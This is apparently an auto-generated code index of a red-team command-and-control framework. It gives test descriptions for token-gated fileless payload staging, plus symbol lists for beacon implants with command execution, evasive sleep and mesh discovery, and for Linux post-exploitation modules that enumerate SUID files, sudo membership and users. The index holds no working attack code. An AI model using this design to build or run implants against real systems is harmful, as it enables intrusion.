"test_hmac_covers_counter_and_timestamp", "signature": "def test_hmac_covers_counter_and_timestamp(self)"}]}, {"doc": "Tests for random per-run runtime values (Contract: random staging).  BDD Scenarios: 1. Given no port/key/token/client_id in config or env, when the server loads its runtime config, then all are generated at random and reported in cfg[\"generated\"] 2. Given explicit values in config.json, when loaded, then nothing is generated (operator intent wins) 3. Given env overrides, when loaded, then env wins over generation 4. Given a generated key, when /stage/config is fetched, then the served config carries the runtime key/url/client_id and no server section", "id": "tests/test_runtime_random.py", "kind": "module", "label": "test_runtime_random.py", "language": "py", "sha256": "0c048b3973550ac7", "symbol_count": 12, "symbols": [{"kind": "function", "line": 33, "name": "lrc", "signature": "def lrc(monkeypatch, tmp_path, raw, env)"}, {"kind": "class", "line": 44, "name": "TestRandomGeneration", "signature": "class TestRandomGeneration"}, {"kind": "class", "line": 99, "name": "TestStageConfigCarriesRuntimeValues", "signature": "class TestStageConfigCarriesRuntimeValues"}, {"kind": "method", "line": 45, "name": "test_all_generated_when_nothing_provided", "signature": "def test_all_generated_when_nothing_provided(self, monkeypatch, tmp_path)"}, {"kind": "method", "line": 54, "name": "test_generated_key_parities", "signature": "def test_generated_key_parities(self, monkeypatch, tmp_path)"}, {"kind": "method", "line": 62, "name": "test_random_url_points_at_generated_port", "signature": "def test_random_url_points_at_generated_port(self, monkeypatch, tmp_path)"}, {"kind": "method", "line": 66, "name": "test_two_runs_differ", "signature": "def test_two_runs_differ(self, monkeypatch, tmp_path)"}, {"kind": "method", "line": 73, "name": "test_provided_values_preserved", "signature": "def test_provided_values_preserved(self, monkeypatch, tmp_path)"}, {"kind": "method", "line": 87, "name": "test_env_wins", "signature": "def test_env_wins(self, monkeypatch, tmp_path)"}, {"kind": "method", "line": 92, "name": "test_explicit_token_no_generation", "signature": "def test_explicit_token_no_generation(self, monkeypatch, tmp_path)"}, {"kind": "method", "line": 100, "name": "test_served_config_matches_runtime", "signature": "def test_served_config_matches_runtime(self, monkeypatch, tmp_path)"}, {"kind": "method", "line": 112, "name": "test_file_config_values_win_when_provided", "signature": "def test_file_config_values_win_when_provided(self, monkeypatch, tmp_path)"}]}, {"doc": "Tests for diskless staging endpoints (Contract: fileless staging).  BDD Scenarios: 1. Given a valid token, when staged, then the packed ELF/config decodes back to the original bytes (server<->stager HKDF parity) 2. Given no key material on the wire, when the response is captured, then it cannot be decoded without the token 3. Given a missing/wrong token, when staged, then STAGE_FORBIDDEN (fail closed) 4. Given no stage_token configured, when staged, then STAGE_FORBIDDEN 5. Given missing/non-ELF beacon, when staged, then STAGE_UNAVAILABLE 6. Given the HTTP routing, when a stage path arrives, then it reaches the handler 7. Given build_stage_oneliner, when built, then it embeds URL and token 8. Given TLS configured, when the stager connects over TLS, then it works end-to-end (skipped if openssl is unavailable)", "id": "tests/test_stage.py", "kind": "module", "label": "test_stage.py", "language": "py", "sha256": "d4c0fa23f39c16cc", "symbol_count": 29, "symbols": [{"kind": "function", "line": 54, "name": "make_state", "signature": "def make_state(tmpdir, token, beacon)"}, {"kind": "class", "line": 66, "name": "TestStageCodec", "signature": "class TestStageCodec"}, {"kind": "class", "line": 102, "name": "TestStageToken", "signature": "class TestStageToken"}, {"kind": "class", "line": 120, "name": "TestStageBeacon", "signature": "class TestStageBeacon"}, {"kind": "class", "line": 144, "name": "TestStageConfig", "signature": "class TestStageConfig"}, {"kind": "class", "line": 165, "name": "TestStageRouting", "signature": "class TestStageRouting"}, {"kind": "class", "line": 197, "name": "TestStageOneliner", "signature": "class TestStageOneliner"}, {"doc": "Generate a self-signed cert/key pair with openssl; None if unavailable.", "kind": "function", "line": 210, "name": "_self_signed_cert", "signature": "def _self_signed_cert(td)"}, {"kind": "class", "line": 228, "name": "TestStageTLSEndToEnd", "signature": "class TestStageTLSEndToEnd"}, {"kind": "method", "line": 67, "name": "test_encode_decode_roundtrip", "signature": "def test_encode_decode_roundtrip(self)"}, {"doc": "Given a captured response, when decoded without the token, then fail.", "kind": "method", "line": 71, "name": "test_no_key_material_on_wire", "signature": "def test_no_key_material_on_wire(self)"}, {"kind": "method", "line": 78, "name": "test_keys_derived_deterministically_from_token", "signature": "def test_keys_derived_deterministically_from_token(self)"}, {"doc": "Server encode must be exactly what the stager payload decodes.", "kind": "method", "line": 84, "name": "test_server_payload_hkdf_parity", "signature": "def test_server_payload_hkdf_parity(self)"}, {"kind": "method", "line": 103, "name": "test_missing_token_forbidden", "signature": "def test_missing_token_forbidden(self, tmp_path)"}, {"kind": "method", "line": 107, "name": "test_wrong_token_forbidden", "signature": "def test_wrong_token_forbidden(self, tmp_path)"}, {"kind": "method", "line": 111, "name": "test_no_token_configured_fails_closed", "signature": "def test_no_token_configured_fails_closed(self, tmp_path)"}, {"kind": "method", "line": 115, "name": "test_unknown_kind_forbidden", "signature": "def test_unknown_kind_forbidden(self, tmp_path)"}, {"kind": "method", "line": 121, "name": "test_beacon_roundtrip", "signature": "def test_beacon_roundtrip(self, tmp_path)"}, {"kind": "method", "line": 129, "name": "test_beacon_file_missing", "signature": "def test_beacon_file_missing(self, tmp_path)"}, {"kind": "method", "line": 133, "name": "test_beacon_not_elf", "signature": "def test_beacon_not_elf(self, tmp_path)"}, {"kind": "method", "line": 139, "name": "test_beacon_path_none", "signature": "def test_beacon_path_none(self, tmp_path)"}, {"kind": "method", "line": 145, "name": "test_config_roundtrip", "signature": "def test_config_roundtrip(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 157, "name": "test_config_always_available", "signature": "def test_config_always_available(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 166, "name": "test_http_get_beacon_routed", "signature": "def test_http_get_beacon_routed(self, tmp_path)"}, {"kind": "method", "line": 175, "name": "test_http_get_config_routed", "signature": "def test_http_get_config_routed(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 184, "name": "test_wrong_token_routed_rejected", "signature": "def test_wrong_token_routed_rejected(self, tmp_path)"}, {"kind": "method", "line": 189, "name": "test_legacy_selector_routed", "signature": "def test_legacy_selector_routed(self, tmp_path)"}, {"kind": "method", "line": 198, "name": "test_oneliner_embeds_url_and_token", "signature": "def test_oneliner_embeds_url_and_token(self, tmp_path)"}, {"kind": "method", "line": 229, "name": "test_tls_roundtrip", "signature": "def test_tls_roundtrip(self, tmp_path, monkeypatch)"}]}], "type": "CodePropertyGraph", "version": "1.0"}
```

---

## Architecture Reference

### C (92 files)

#### `aes.c`
**Path:** `aes.c`
**File Doc:** *aes.c - tiny-AES-c (https://github.com/kokke/tiny-AES-c)*

**Functions:**
- `getSBoxValue` (line 11) `static uint8_t getSBoxValue(uint8_t num)`
- `getSBoxInvert` (line 35) `static uint8_t getSBoxInvert(uint8_t num)`
- `Td0` (line 59) `static uint8_t Td0(int x)`
- `Td1` (line 63) `static uint8_t Td1(int x)`
- `Td2` (line 67) `static uint8_t Td2(int x)`
- `Td3` (line 71) `static uint8_t Td3(int x)`
- `Td4` (line 75) `static uint8_t Td4(int x)`
- `KeyExpansion` (line 181) `static void KeyExpansion(uint8_t *RoundKey, const uint8_t *Key)` - *This function produces Nb(Nr+1) round keys. The round keys are used in each round to decrypt the states.*
- `AES_init_ctx` (line 254) `void AES_init_ctx(struct AES_ctx *ctx, const uint8_t *key)`
- `AES_init_ctx_iv` (line 259) `void AES_init_ctx_iv(struct AES_ctx *ctx, const uint8_t *key, const uint8_t *iv)` - *if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))*
- `AES_ctx_set_iv` (line 264) `void AES_ctx_set_iv(struct AES_ctx *ctx, const uint8_t *iv)`
- `AddRoundKey` (line 272) `static void AddRoundKey(uint8_t round, state_t *state, const uint8_t *RoundKey)` - *This function adds the round key to state. The round key is added to the state by an XOR function.*
- `SubBytes` (line 286) `static void SubBytes(state_t *state)` - *The SubBytes Function Substitutes the values in the state matrix with values in an S-box.*
- `ShiftRows` (line 301) `static void ShiftRows(state_t *state)` - *The ShiftRows() function shifts the rows in the state to the left. Each row is shifted with different offset. Offset = Row number. So the first row is not shifted.*
- `xtime` (line 329) `static uint8_t xtime(uint8_t x)`
- `MixColumns` (line 335) `static void MixColumns(state_t *state)` - *MixColumns function mixes the columns of the state matrix*
- `Multiply` (line 363) `static uint8_t Multiply(uint8_t x, uint8_t y)` - *Multiply is used to multiply numbers in the field GF(2^8) Note: The last call to xtime() is unneeded, but often ends up generating a smaller binary The compiler seems to be able to vectorize the operation better this way. See https://github.com/kokke/tiny-AES-c/pull/34 if MULTIPLY_AS_A_FUNCTION*
- `InvMixColumns` (line 389) `static void InvMixColumns(state_t *state)` - *MixColumns function mixes the columns of the state matrix. The method used to multiply may be difficult to understand for the inexperienced. Please use the references to gain more information.*
- `InvSubBytes` (line 413) `static void InvSubBytes(state_t *state)` - *The SubBytes Function Substitutes the values in the state matrix with values in an S-box.*
- `InvShiftRows` (line 425) `static void InvShiftRows(state_t *state)`
- `Cipher` (line 455) `static void Cipher(state_t *state, const uint8_t *RoundKey)` - *Cipher is the main function that encrypts the PlainText.*
- `InvCipher` (line 482) `static void InvCipher(state_t *state, const uint8_t *RoundKey)` - *if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)*
- `AES_ECB_encrypt` (line 512) `void AES_ECB_encrypt(const struct AES_ctx *ctx, uint8_t *buf)`
- `AES_ECB_decrypt` (line 518) `void AES_ECB_decrypt(const struct AES_ctx *ctx, uint8_t *buf)`
- `XorWithIv` (line 528) `static void XorWithIv(uint8_t *buf, const uint8_t *Iv)`
- `AES_CBC_encrypt_buffer` (line 537) `void AES_CBC_encrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)`
- `AES_CBC_decrypt_buffer` (line 552) `void AES_CBC_decrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)`
- `AES_CTR_xcrypt_buffer` (line 572) `void AES_CTR_xcrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)` - *Symmetrical operation: same function for encrypting as for decrypting. Note any IV/nonce should * never be reused with the same key*

**Macros:**
- `Nb` (line 5) `#define Nb`
- `KEYLEN_256` (line 7) `#define KEYLEN_256`
- `RKLENGTH` (line 8) `#define RKLENGTH`
- `BLOCKLEN` (line 9) `#define BLOCKLEN`
- `Nb` (line 84) `#define Nb`
- `Nk` (line 87) `#define Nk`
- `Nr` (line 88) `#define Nr`
- `Nk` (line 90) `#define Nk`
- `Nr` (line 91) `#define Nr`
- `Nk` (line 93) `#define Nk`
- `Nr` (line 94) `#define Nr`
- `MULTIPLY_AS_A_FUNCTION` (line 101) `#define MULTIPLY_AS_A_FUNCTION`
- `getSBoxValue` (line 177) `#define getSBoxValue(num)`
- `Multiply` (line 371) `#define Multiply(x, y)`
- `getSBoxInvert` (line 384) `#define getSBoxInvert(num)`

#### `beacon.c`
**Path:** `beacons/v1/beacon.c`

**Functions:**
- `report_result` (line 24) `static void report_result(const bsb_config_t *cfg, const char *command, const char *output)`
- `execute_command` (line 104) `static char *execute_command(const bsb_config_t *cfg, const char *command)`
- `main` (line 167) `int main(void)`

**Macros:**
- `_GNU_SOURCE` (line 13) `#define _GNU_SOURCE`

#### `beacon.c`
**Path:** `beacons/v2/beacon.c`

**Functions:**
- `report_result` (line 69) `static void report_result(const bsb_config_t *cfg, const char *command, const char *output)`
- `execute_command` (line 149) `static char *execute_command(const bsb_config_t *cfg, const char *command)`
- `main` (line 212) `int main(void)`

**Macros:**
- `_GNU_SOURCE` (line 12) `#define _GNU_SOURCE`
- `MAX_PEERS` (line 27) `#define MAX_PEERS`
- `DISCOVERY_PORT` (line 28) `#define DISCOVERY_PORT`
- `DISCOVERY_INTERVAL` (line 29) `#define DISCOVERY_INTERVAL`
- `MAX_TTL` (line 30) `#define MAX_TTL`
- `MESH_MSG_SIZE` (line 31) `#define MESH_MSG_SIZE`

**Structs:**
- `peer_t` (line 33)
- `mesh_msg_t` (line 41)

#### `beacon.c`
**Path:** `beacons/v3/beacon.c`

**Functions:**
- `infrastructure` (line 8) `*
 * All shared infrastructure (HTTP client, crypto, BOF loader)
 * lives in beacon_common.c. Thi...`
- `compute_primes` (line 42) `static int compute_primes(int count)`
- `evasive_sleep` (line 55) `static void evasive_sleep(int seconds)`
- `report_result` (line 62) `static void report_result(const bsb_config_t *cfg, const char *command, const char *output)`
- `execute_command` (line 142) `static char *execute_command(const bsb_config_t *cfg, const char *command)`
- `main` (line 205) `int main(void)`

**Macros:**
- `_GNU_SOURCE` (line 12) `#define _GNU_SOURCE`

#### `bof.c`
**Path:** `bof/cat/bof.c`

**Functions:**
- `go` (line 15) `void go(char *args, int alen)`

#### `cat.c`
**Path:** `bof/cat/cat.c`
**File Doc:** *readfile.c — LazyOwn RedTeam BOF (Linux/x64) gcc -c -nostdlib -fPIC -m64 -O2 cat.c -o cat.x64.o  Tipos*

**Functions:**
- `syscall3` (line 21) `static inline long syscall3(long n, long a1, long a2, long a3)` - *Wrappers (copiados de tus ejemplos)*
- `go` (line 31) `void go(char *args, int alen)`
- `BeaconPrintf` (line 11) `extern void BeaconPrintf(int, const char *, ...);` - *Símbolos del beacon*
- `BeaconOutput` (line 12) `extern void BeaconOutput(int, const char *, int);`

**Macros:**
- `NULL` (line 3) `#define NULL`
- `CALLBACK_OUTPUT` (line 4) `#define CALLBACK_OUTPUT`
- `SYS_openat` (line 15) `#define SYS_openat`
- `SYS_read` (line 16) `#define SYS_read`
- `SYS_close` (line 17) `#define SYS_close`
- `AT_FDCWD` (line 18) `#define AT_FDCWD`

**Type_Aliases:**
- `size_t` (line 7) `typedef unsigned long size_t;` - *Tipos*
- `ssize_t` (line 8) `typedef long ssize_t;`

#### `bof.c`
**Path:** `bof/is_sudo/bof.c`

**Functions:**
- `user_in_group` (line 15) `static int user_in_group(const char *group, const char *username, char *filebuf, long filesize)`
- `go` (line 74) `void go(char *args, int alen)`

#### `is_sudo.c`
**Path:** `bof/is_sudo/is_sudo.c`
**File Doc:** *is_sudo.c — LazyOwn RedTeam BOF (Linux/x64) gcc -c -nostdlib -fPIC -m64 -O2 is_sudo.c -o is_sudo.x64.o  Tipos*

**Functions:**
- `syscall3` (line 23) `static inline long syscall3(long n, long a1, long a2, long a3)` - *Wrappers*
- `syscall1` (line 33) `static inline long syscall1(long n, long a1)`
- `strcmp` (line 41) `static int strcmp(const char *s1, const char *s2)` - *strcmp mínimo (necesario para comparar strings)*
- `get_username_from_uid` (line 52) `static int get_username_from_uid(long uid, char *buf, int buf_size)` - *Obtener username desde /etc/passwd (sin libc)*
- `go` (line 122) `void go(char *args, int alen)`
- `BeaconPrintf` (line 11) `extern void BeaconPrintf(int, const char *, ...);` - *Símbolos del beacon*
- `BeaconOutput` (line 12) `extern void BeaconOutput(int, const char *, int);`

**Macros:**
- `NULL` (line 3) `#define NULL`
- `CALLBACK_OUTPUT` (line 4) `#define CALLBACK_OUTPUT`
- `SYS_openat` (line 15) `#define SYS_openat`
- `SYS_read` (line 16) `#define SYS_read`
- `SYS_close` (line 17) `#define SYS_close`
- `SYS_getuid` (line 18) `#define SYS_getuid`
- `SYS_getpwuid_r` (line 19) `#define SYS_getpwuid_r`
- `AT_FDCWD` (line 20) `#define AT_FDCWD`

**Type_Aliases:**
- `size_t` (line 7) `typedef unsigned long size_t;` - *Tipos*
- `ssize_t` (line 8) `typedef long ssize_t;`

#### `bof.c`
**Path:** `bof/suid_enum/bof.c`

**Functions:**
- `flush_output` (line 78) `static void flush_output(void)`
- `emit` (line 87) `static void emit(const char *s)`
- `format_mode` (line 114) `static void format_mode(unsigned int mode, char *out)` - *Format `mode` (a st_mode value) into a 10-char permission * string, like ls -l does.*
- `path_reset` (line 137) `static void path_reset(const char *root)`
- `path_append` (line 148) `static void path_append(const char *name)`
- `path_trim_to` (line 166) `static void path_trim_to(int len)`
- `walk` (line 178) `static void walk(int depth)` - *Walk one directory, recursing into subdirectories. `depth` * bounds the recursion so a symlink loop cannot blow the stack.*
- `go` (line 298) `void go(char *args, int alen)`

**Macros:**
- `SYS_getdents64` (line 26) `#define SYS_getdents64`
- `SYS_lstat` (line 27) `#define SYS_lstat`
- `DT_UNKNOWN` (line 30) `#define DT_UNKNOWN`
- `DT_DIR` (line 31) `#define DT_DIR`
- `DT_LNK` (line 32) `#define DT_LNK`

**Structs:**
- `linux_stat` (line 35) - *#include "beacon_api.h" #include "syscalls.h" /* getdents64 syscall number (x86_64) and the dirent layout. #define SYS_getdents64 217 #define SYS_lstat 6 /* d_type values we care about (from <dirent.h>). #define DT_UNKNOWN 0 #define DT_DIR 4 #define DT_LNK 10 /* Linux stat struct (matches the kernel ABI for x86_64).*
- `linux_dirent64` (line 59) - *getdents64 entry layout (kernel ABI). The d_reclen field tells * us the actual record size since names are variable length.*

#### `bof.c`
**Path:** `bof/userenum/bof.c`

**Functions:**
- `user_in_member_list` (line 67) `static int user_in_member_list(const char *username, const char *members)`
- `go` (line 89) `void go(char *args, int alen)`

#### `userenum.c`
**Path:** `bof/userenum/userenum.c`
**File Doc:** *is_sudo.c — LazyOwn RedTeam BOF (Linux/x64) gcc -c -nostdlib -fPIC -m64 -O2 userenum.c -o userenum.x64.o  Tipos*

**Functions:**
- `syscall3` (line 21) `static inline long syscall3(long n, long a1, long a2, long a3)` - *Wrappers*
- `strcmp` (line 32) `static int strcmp(const char *s1, const char *s2)` - *strcmp mínimo (necesario para comparar strings)*
- `go` (line 42) `void go(char *args, int alen)`
- `BeaconPrintf` (line 11) `extern void BeaconPrintf(int, const char *, ...);` - *Símbolos del beacon*
- `BeaconOutput` (line 12) `extern void BeaconOutput(int, const char *, int);`

**Macros:**
- `NULL` (line 3) `#define NULL`
- `CALLBACK_OUTPUT` (line 4) `#define CALLBACK_OUTPUT`
- `SYS_openat` (line 15) `#define SYS_openat`
- `SYS_read` (line 16) `#define SYS_read`
- `SYS_close` (line 17) `#define SYS_close`
- `AT_FDCWD` (line 18) `#define AT_FDCWD`

**Type_Aliases:**
- `size_t` (line 7) `typedef unsigned long size_t;` - *Tipos*
- `ssize_t` (line 8) `typedef long ssize_t;`

#### `bof.c`
**Path:** `bof/whoami/bof.c`

**Functions:**
- `go` (line 19) `void go(char *args, int alen)`

#### `whoami.c`
**Path:** `bof/whoami/whoami.c`
**File Doc:** *whoami.c — LazyOwn RedTeam BOF (Linux/x64)  Tipos*

**Functions:**
- `syscall3` (line 21) `static inline long syscall3(long n, long a1, long a2, long a3)` - *Syscall wrappers*
- `syscall1` (line 31) `static inline long syscall1(long n, long a1)`
- `go` (line 38) `void go(char *args, int alen)`
- `BeaconPrintf` (line 10) `extern void BeaconPrintf(int, const char *, ...);` - *Símbolos del beacon*
- `BeaconOutput` (line 11) `extern void BeaconOutput(int, const char *, int);`

**Macros:**
- `NULL` (line 2) `#define NULL`
- `CALLBACK_OUTPUT` (line 3) `#define CALLBACK_OUTPUT`
- `SYS_openat` (line 14) `#define SYS_openat`
- `SYS_read` (line 15) `#define SYS_read`
- `SYS_close` (line 16) `#define SYS_close`
- `SYS_getuid` (line 17) `#define SYS_getuid`
- `AT_FDCWD` (line 18) `#define AT_FDCWD`

**Type_Aliases:**
- `size_t` (line 6) `typedef unsigned long size_t;` - *Tipos*
- `ssize_t` (line 7) `typedef long ssize_t;`

#### `bof.c`
**Path:** `bof.c`
**File Doc:** *bof.c*

**Functions:**
- `__attribute__` (line 4) `__attribute__((used)) __attribute__((visibility("default"))) void go(char *args, int alen)`

#### `cJSON.c`
**Path:** `cJSON.c`

**Functions:**
- `CJSON_PUBLIC` (line 96) `CJSON_PUBLIC(const char *) cJSON_GetErrorPtr(void)`
- `CJSON_PUBLIC` (line 101) `CJSON_PUBLIC(char *) cJSON_GetStringValue(const cJSON *const item)`
- `CJSON_PUBLIC` (line 111) `CJSON_PUBLIC(double) cJSON_GetNumberValue(const cJSON *const item)`
- `CJSON_PUBLIC` (line 126) `CJSON_PUBLIC(const char *) cJSON_Version(void)`
- `case_insensitive_strcmp` (line 135) `static int case_insensitive_strcmp(const unsigned char *string1, const unsigned char *string2)` - */* This is a safeguard to prevent copy-pasters from using incompatible C and header files #if (CJSON_VERSION_MAJOR != 1) || (CJSON_VERSION_MINOR != 7) || (CJSON_VERSION_PATCH != 18) #error cJSON.h and cJSON.c have different versions. Make sure that both have the same. #endif CJSON_PUBLIC(const char *) cJSON_Version(void) { static char version[15]; sprintf(version, "%i.%i.%i", CJSON_VERSION_MAJOR, CJSON_VERSION_MINOR, CJSON_VERSION_PATCH); return version; } /* Case insensitive string comparison, doesn't consider two NULL pointers equal though*
- `internal_malloc` (line 167) `static void *CJSON_CDECL internal_malloc(size_t size)` - *} return tolower(*string1) - tolower(*string2); } typedef struct internal_hooks { void *(CJSON_CDECL *allocate)(size_t size); void(CJSON_CDECL *deallocate)(void *pointer); void *(CJSON_CDECL *reallocate)(void *pointer, size_t size); } internal_hooks; #if defined(_MSC_VER) /* work around MSVC error C2322: '...' address of dllimport '...' is not static*
- `internal_free` (line 171) `static void CJSON_CDECL internal_free(void *pointer)`
- `internal_realloc` (line 175) `static void *CJSON_CDECL internal_realloc(void *pointer, size_t size)`
- `cJSON_strdup` (line 190) `static unsigned char *cJSON_strdup(const unsigned char *string, const internal_hooks *const hooks)`
- `CJSON_PUBLIC` (line 211) `CJSON_PUBLIC(void) cJSON_InitHooks(cJSON_Hooks *hooks)`
- `cJSON_New_Item` (line 243) `static cJSON *cJSON_New_Item(const internal_hooks *const hooks)` - *if (hooks->free_fn != NULL) { global_hooks.deallocate = hooks->free_fn; } /* use realloc only if both free and malloc are used global_hooks.reallocate = NULL; if ((global_hooks.allocate == malloc) && (global_hooks.deallocate == free)) { global_hooks.reallocate = realloc; } } /* Internal constructor.*
- `get_decimal_point` (line 282) `static unsigned char get_decimal_point(void)` - *item->valuestring = NULL; } if (!(item->type & cJSON_StringIsConst) && (item->string != NULL)) { global_hooks.deallocate(item->string); item->string = NULL; } global_hooks.deallocate(item); item = next; } } /* get the decimal point character of the current locale*
- `parse_number` (line 311) `static cJSON_bool parse_number(cJSON *const item, parse_buffer *const input_buffer)` - *size_t depth; /* How deeply nested (in arrays/objects) is the input at the current offset. internal_hooks hooks; } parse_buffer; /* check if the given size is left to read in a given parse buffer (starting with 1) #define can_read(buffer, size) ((buffer != NULL) && (((buffer)->offset + size) <= (buffer)->length)) /* check if the buffer can be accessed at the given index (starting with 0) #define can_access_at_index(buffer, index)                                                         \ ((buffer != NULL) && (((buffer)->offset + index) < (buffer)->length)) #define cannot_access_at_index(buffer, index) (!can_access_at_index(buffer, index)) /* get a pointer to the buffer at the position #define buffer_at_offset(buffer) ((buffer)->content + (buffer)->offset) /* Parse the input text to generate a number, and populate the result into item.*
- `ensure` (line 497) `static unsigned char *ensure(printbuffer *const p, size_t needed)` - *} typedef struct { unsigned char *buffer; size_t length; size_t offset; size_t depth; /* current nesting depth (for formatted printing) cJSON_bool noalloc; cJSON_bool format; /* is this print a formatted print internal_hooks hooks; } printbuffer; /* realloc printbuffer if necessary to have at least "needed" bytes more*
- `update_offset` (line 583) `static void update_offset(printbuffer *const buffer)` - *p->buffer = NULL; return NULL; } memcpy(newbuffer, p->buffer, p->offset + 1); p->hooks.deallocate(p->buffer); } p->length = newsize; p->buffer = newbuffer; return newbuffer + p->offset; } /* calculate the new length of the string in a printbuffer and update the offset*
- `compare_double` (line 596) `static cJSON_bool compare_double(double a, double b)` - */* calculate the new length of the string in a printbuffer and update the offset static void update_offset(printbuffer *const buffer) { const unsigned char *buffer_pointer = NULL; if ((buffer == NULL) || (buffer->buffer == NULL)) { return; } buffer_pointer = buffer->buffer + buffer->offset; buffer->offset += strlen((const char *)buffer_pointer); } /* securely comparison of floating-point variables*
- `print_number` (line 603) `static cJSON_bool print_number(const cJSON *const item, printbuffer *const output_buffer)` - *} buffer_pointer = buffer->buffer + buffer->offset; buffer->offset += strlen((const char *)buffer_pointer); } /* securely comparison of floating-point variables static cJSON_bool compare_double(double a, double b) { double maxVal = fabs(a) > fabs(b) ? fabs(a) : fabs(b); return (fabs(a - b) <= maxVal * DBL_EPSILON); } /* Render the number nicely from the given item into a string.*
- `parse_hex4` (line 673) `static unsigned parse_hex4(const unsigned char *const input)` - *output_pointer[i] = '.'; continue; } output_pointer[i] = number_buffer[i]; } output_pointer[i] = '\0'; output_buffer->offset += (size_t)length; return true; } /* parse 4 digit hexadecimal number*
- `utf16_literal_to_utf8` (line 710) `static unsigned char utf16_literal_to_utf8(const unsigned char *const input_pointer,
            ...` - *converts a UTF-16 literal to UTF-8 * A literal can be one or two sequences of the form \uXXXX*
- `parse_string` (line 832) `static cJSON_bool parse_string(cJSON *const item, parse_buffer *const input_buffer)` - *else { (*output_pointer)[0] = (unsigned char)(codepoint & 0x7F); } output_pointer += utf8_length; return sequence_length; fail: return 0; } /* Parse the input text into an unescaped cinput, and populate item.*
- `print_string_ptr` (line 964) `static cJSON_bool print_string_ptr(const unsigned char *const input,
                            ...` - *{ input_buffer->hooks.deallocate(output); output = NULL; } if (input_pointer != NULL) { input_buffer->offset = (size_t)(input_pointer - input_buffer->content); } return false; } /* Render the cstring provided to an escaped version that can be printed.*
- `print_string` (line 1087) `static cJSON_bool print_string(const cJSON *const item, printbuffer *const p)` - */* escape and print as unicode codepoint sprintf((char *)output_pointer, "u%04x", *input_pointer); output_pointer += 4; break; } } } output[output_length + 1] = '"'; output[output_length + 2] = '\0'; return true; } /* Invoke print_string_ptr (which is useful) on an item.*
- `buffer_skip_whitespace` (line 1101) `static parse_buffer *buffer_skip_whitespace(parse_buffer *const buffer)` - *static cJSON_bool print_string(const cJSON *const item, printbuffer *const p) { return print_string_ptr((unsigned char *)item->valuestring, p); } /* Predeclare these prototypes. static cJSON_bool parse_value(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_value(const cJSON *const item, printbuffer *const output_buffer); static cJSON_bool parse_array(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_array(const cJSON *const item, printbuffer *const output_buffer); static cJSON_bool parse_object(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_object(const cJSON *const item, printbuffer *const output_buffer); /* Utility to jump whitespace and cr/lf*
- `skip_utf8_bom` (line 1127) `static parse_buffer *skip_utf8_bom(parse_buffer *const buffer)` - *while (can_access_at_index(buffer, 0) && (buffer_at_offset(buffer)[0] <= 32)) { buffer->offset++; } if (buffer->offset == buffer->length) { buffer->offset--; } return buffer; } /* skip the UTF-8 BOM (byte order mark) if it is at the beginning of a buffer*
- `CJSON_PUBLIC` (line 1143) `CJSON_PUBLIC(cJSON *)
cJSON_ParseWithOpts(const char *value, const char **return_parse_end,
     ...`
- `CJSON_PUBLIC` (line 1251) `CJSON_PUBLIC(cJSON *) cJSON_ParseWithLength(const char *value, size_t buffer_length)`
- `print` (line 1258) `static unsigned char *print(const cJSON *const item, cJSON_bool format,
                         ...`
- `CJSON_PUBLIC` (line 1333) `CJSON_PUBLIC(char *) cJSON_PrintUnformatted(const cJSON *item)`
- `CJSON_PUBLIC` (line 1338) `CJSON_PUBLIC(char *) cJSON_PrintBuffered(const cJSON *item, int prebuffer, cJSON_bool fmt)`
- `CJSON_PUBLIC` (line 1369) `CJSON_PUBLIC(cJSON_bool)
cJSON_PrintPreallocated(cJSON *item, char *buffer, const int length, con...`
- `parse_value` (line 1390) `static cJSON_bool parse_value(cJSON *const item, parse_buffer *const input_buffer)` - *return false; } p.buffer = (unsigned char *)buffer; p.length = (size_t)length; p.offset = 0; p.noalloc = true; p.format = format; p.hooks = global_hooks; return print_value(item, &p); } /* Parser core - when encountering text, process appropriately.*
- `print_value` (line 1450) `static cJSON_bool print_value(const cJSON *const item, printbuffer *const output_buffer)` - *if (can_access_at_index(input_buffer, 0) && (buffer_at_offset(input_buffer)[0] == '[')) { return parse_array(item, input_buffer); } /* object if (can_access_at_index(input_buffer, 0) && (buffer_at_offset(input_buffer)[0] == '{')) { return parse_object(item, input_buffer); } return false; } /* Render a value to text.*
- `parse_array` (line 1524) `static cJSON_bool parse_array(cJSON *const item, parse_buffer *const input_buffer)` - *return print_string(item, output_buffer); case cJSON_Array: return print_array(item, output_buffer); case cJSON_Object: return print_object(item, output_buffer); default: return false; } } /* Build an array from input text.*
- `print_array` (line 1621) `static cJSON_bool print_array(const cJSON *const item, printbuffer *const output_buffer)` - *input_buffer->offset++; return true; fail: if (head != NULL) { cJSON_Delete(head); } return false; } /* Render an array to text*
- `parse_object` (line 1683) `static cJSON_bool parse_object(cJSON *const item, parse_buffer *const input_buffer)` - *output_pointer = ensure(output_buffer, 2); if (output_pointer == NULL) { return false; } output_pointer++ = ']'; output_pointer = '\0'; output_buffer->depth--; return true; } /* Build an object from the text.*
- `print_object` (line 1801) `static cJSON_bool print_object(const cJSON *const item, printbuffer *const output_buffer)` - *input_buffer->offset++; return true; fail: if (head != NULL) { cJSON_Delete(head); } return false; } /* Render an object to text.*
- `get_array_item` (line 1937) `static cJSON *get_array_item(const cJSON *array, size_t index)`
- `CJSON_PUBLIC` (line 1956) `CJSON_PUBLIC(cJSON *) cJSON_GetArrayItem(const cJSON *array, int index)`
- `get_object_item` (line 1966) `static cJSON *get_object_item(const cJSON *const object, const char *const name,
                ...`
- `CJSON_PUBLIC` (line 2003) `CJSON_PUBLIC(cJSON *) cJSON_GetObjectItem(const cJSON *const object, const char *const string)`
- `CJSON_PUBLIC` (line 2008) `CJSON_PUBLIC(cJSON *)
cJSON_GetObjectItemCaseSensitive(const cJSON *const object, const char *con...`
- `CJSON_PUBLIC` (line 2014) `CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string)`
